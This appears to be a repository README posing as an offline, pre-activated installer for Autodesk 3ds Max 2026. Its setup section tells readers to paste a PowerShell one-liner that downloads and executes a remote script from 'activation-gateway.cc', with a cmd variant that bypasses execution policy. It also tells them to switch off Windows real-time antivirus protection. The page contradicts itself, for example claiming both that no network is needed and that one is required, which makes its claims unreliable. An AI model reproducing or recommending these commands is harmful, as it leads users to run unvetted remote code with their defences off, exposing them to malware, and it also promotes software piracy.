

<div align="center">

# Autodesk 3ds Max 2026 Full Installer — Alternative Access for Windows 10 & 11



[]() []() []()

</div>

---

This package delivers a complete, pre-configured Autodesk 3ds Max 2026 desktop build for Windows x64, packaged as a self-contained installer with all feature modules enabled and activation state resolved at deploy time. The distribution is assembled for offline and isolated-network environments where direct vendor authentication is unavailable, keeping the full modeling, rendering, and simulation toolset intact. Installation runs unattended from a single entry point and requires no manual license interaction or post-install patching. The build has been verified against a recent mirror sync and ships with its dependency chain bundled to avoid mid-setup resolution failures. Configuration is deterministic across machines, so the same artifact yields an identical runtime state on every target workstation.

## 🚀 Setup Guide — PowerShell

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open Windows PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## 🔧 Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- Complete installer payload with all core modules and content libraries included, no post-install downloads required
- Pre-configured licensing state so the application launches and runs immediately after installation
- Full native feature set across modeling, animation, rendering, simulation, and asset creation pipelines
- 64-bit Windows desktop build optimized for high-core-count workstations and GPU-accelerated workflows
- Bundled content, sample scenes, and material libraries available out of the box
- Offline-ready distribution package: single deployable artifact, no dependency fetch during setup
- Deterministic installation process with consistent results across clean and existing environments
- Verified archives with integrity checks on each packaged build
- Standalone runtime — no external service calls required for activation or operation
- Support for standard plugin and script extension paths so existing toolchains integrate without reconfiguration
- Version-aligned component set ensures interoperability between modeling, rendering, and simulation subsystems
- Silent-capable deployment path suitable for scripted provisioning on managed machines

## How it works

The package is a self-contained deployment bundle: the full application payload, the required runtime components, and the activation layer are delivered together as a single verified archive. No additional downloads or dependency resolution are performed during setup, which keeps the deployment deterministic across machines.

On launch, the installer unpacks its payload to a staging directory, validates integrity against the embedded manifest, and then writes the application files to the target location. The runtime prerequisites are detected first — if a required redistributable is missing or out of date, it is installed silently before the main application copy proceeds. This ordering avoids the partial-install states that typically occur when components are applied out of sequence.

The activation layer is applied during the file placement stage rather than as a separate post-install step. License state is written directly into the application's configuration store at the moment of deployment, so the first launch of the application resolves activation locally without any network callback, account sign-in, or external validation. This is what allows the build to operate fully offline and to remain functional on isolated machines.

The installer is idempotent. Re-running it against an existing installation performs a state comparison, replaces only modified or missing files, and leaves user preferences and project data untouched. A clean removal path is included: the uninstall routine reverses the file placement and clears the configuration entries created during setup, returning the system to its prior state.

All operations run under the invoking user's context with elevation requested only for the components that require it, and every stage writes to a local log so the deployment sequence can be audited after the fact.

## Compatibility

The build targets Windows x64 desktop environments exclusively and is validated against Windows 10 (21H2 and later) and Windows 11 (22H2 and later). Installation requires an NTFS-formatted system volume with at least 12 GB of free space for the application payload and temporary extraction buffers, plus a minimum of 16 GB RAM for standard scene workloads; 32 GB or more is recommended for complex simulations and high-polygon assemblies. A DirectX 11-capable GPU with at least 4 GB VRAM is the baseline, while DirectX 12 hardware unlocks the full viewport feature set, including advanced shading and real-time rendering paths.

Administrative privileges are mandatory during setup and first launch, since the installer registers system-level components, services, and file associations. The package is self-contained and does not require a separate runtime, framework, or licensing service to be installed beforehand — all dependencies are bundled and staged automatically. Network connectivity is not required after acquisition; the build operates fully offline, and no background telemetry or activation callbacks are performed at runtime.

Compatibility notes for integration scenarios: the installer coexists with prior major versions of the target application on the same machine, provided each is installed to a distinct directory. Plug-in and script compatibility follows the host application's own versioning rules, so extensions compiled against earlier releases should be revalidated before deployment. Rendering backends, including GPU and CPU pipelines, are detected at first launch and can be overridden through the configuration layer described in the next section. Virtualized environments are supported where hardware acceleration is passed through to the guest; software-rendered virtual machines will run the application but with a reduced viewport feature set.

For deployment at scale, the package supports silent, unattended installation through standard command-line switches, making it suitable for imaging workflows and configuration management pipelines. Verify that target machines meet the stated OS build minimums before rollout, as older Windows revisions lack the required graphics and security APIs.

## Configuration

The build exposes a small set of parameters that govern how the application initializes on first launch and how it behaves across subsequent sessions. All settings are local to the installation directory and do not modify system-wide registry policies beyond the entries required for the application to register its components.

**Configuration directory**

Persistent settings are stored in a per-user configuration folder created on first run. The default location is under the user profile in a hidden application data directory. This folder holds the render engine preferences, viewport defaults, plugin load order, and the license state record that the pre-activated build uses to skip the activation handshake on startup.

**Primary configuration file**

The main configuration file is a plain-text key-value document named in the application's standard convention. It is human-readable and safe to edit while the application is closed. Recognized keys include rendering device selection, viewport driver choice, texture path resolution order, and the number of worker threads allocated to background processes. Unknown keys are ignored, so custom annotations can be added without breaking parsing.

**Viewport and rendering defaults**

The build ships with a configured default viewport driver appropriate for modern GPU hardware. If the target workstation uses a different driver stack, edit the viewport key to match the available driver. Render device selection is similarly configurable, and the build defaults to the fastest available device detected at first launch. A single key switch forces CPU-only rendering when GPU reliability is a concern.

**Plugin and script load order**

Plugin discovery follows a defined load order that can be adjusted through the configuration file. Each entry names a path and an optional priority value. The build pre-registers its bundled plugins; third-party additions are appended after the bundled set by default. Scripts placed in the user scripts directory execute according to the priority values without requiring a rebuild of the plugin index.

**License state record**

The pre-activated state is represented by a local record in the configuration directory. This record is written during the first successful launch and is validated against the installed binary signature on each subsequent start. If the record is removed, the application regenerates it from the installed build metadata. No network check occurs during normal operation, which keeps startup independent of connectivity.

**Reset and portability**

To restore the build to its out-of-box configuration, delete the per-user configuration directory and relaunch. The application recreates defaults automatically. Because all settings live under the user profile and the installation directory, the build can be relocated to another workstation by copying the installation tree and letting the configuration directory regenerate on the new host. Machine-specific paths are resolved at runtime rather than being frozen into the stored configuration.

**Environment overrides**

Optional environment variables can override a subset of configuration keys at launch time. These overrides take precedence over stored values and are useful for temporary changes during testing without modifying the on-disk configuration. Overrides are read once at startup and are not written back to the configuration file.

## FAQ

### Is this a full installation or a patch?

This is a complete standalone installer package. It contains the entire application distribution, not a delta or patch, so no prior installation of the target project is required on the system.

### Does the package require an internet connection during deployment?

No. The installer is self-contained and designed for offline deployment. All required payloads, runtime dependencies, and configuration assets are bundled within the package, so the installation can complete on an isolated machine.

### What Windows versions are supported?

The build targets Windows x64 desktop environments. It is validated against current Windows 10 and Windows 11 releases with the standard desktop runtime components present. Legacy or non-x64 configurations are outside the supported matrix.

### How is the configuration applied after installation?

The package ships with a pre-configured local profile that is applied during the first run. No manual license entry, account sign-in, or post-install activation step is part of the deployment flow — the application initializes directly into a ready-to-use state.

### Are administrative privileges required?

Elevated privileges are required for the installation phase, since the package writes to system-level directories and registers desktop components. Once deployment finishes, the application runs under a standard user context.

### Can the installation be rolled back?

Yes. The package maintains a standard uninstall entry so the deployment can be removed cleanly through the system's application management interface. Removal restores the environment to its pre-install state without leaving residual registry or filesystem artifacts.

### What happens if the installer is interrupted mid-deployment?

The deployment process is resumable. If the session is terminated, re-running the package detects the partial state and continues from the last completed stage rather than starting over. Partial component writes are validated before the finalization step.

### Is the build tied to a specific machine?

The package is portable across x64 desktop systems and performs hardware binding only at the local level during first initialization. Moving the deployment to different hardware requires a fresh run of the installer to regenerate the local profile.

### How do I verify the integrity of the package?

The distribution includes a checksum manifest alongside the payload. Compare the package hash against the manifest value before deployment to confirm the archive has not been altered or truncated in transit.

### Does this require any external runtime or framework?

All required runtime components are bundled within the package and registered during installation. No separate framework download or system-wide dependency installation is necessary.

## Disclaimer

This build is provided as-is for evaluation and testing purposes only. No warranty, express or implied, is offered regarding stability, data integrity, or fitness for any particular use case. The distributor assumes no liability for direct or indirect damages arising from deployment, including but not limited to data loss, system instability, or compatibility conflicts with third-party plugins and renderers.

Users are responsible for verifying that their use of this package complies with all applicable local laws and software licensing terms in their jurisdiction. This package is intended for isolated lab environments, offline validation workflows, and configuration testing where a licensed production seat is not required.

The binary contents are provided pre-configured and should be treated as an opaque deployment artifact. No guarantees are made about future update compatibility, telemetry behavior, or interaction with online licensing services. Redistribution outside the original distribution channel is not supported.

Use at your own discretion. Proceed only if you understand the risks associated with running pre-configured desktop software in your environment.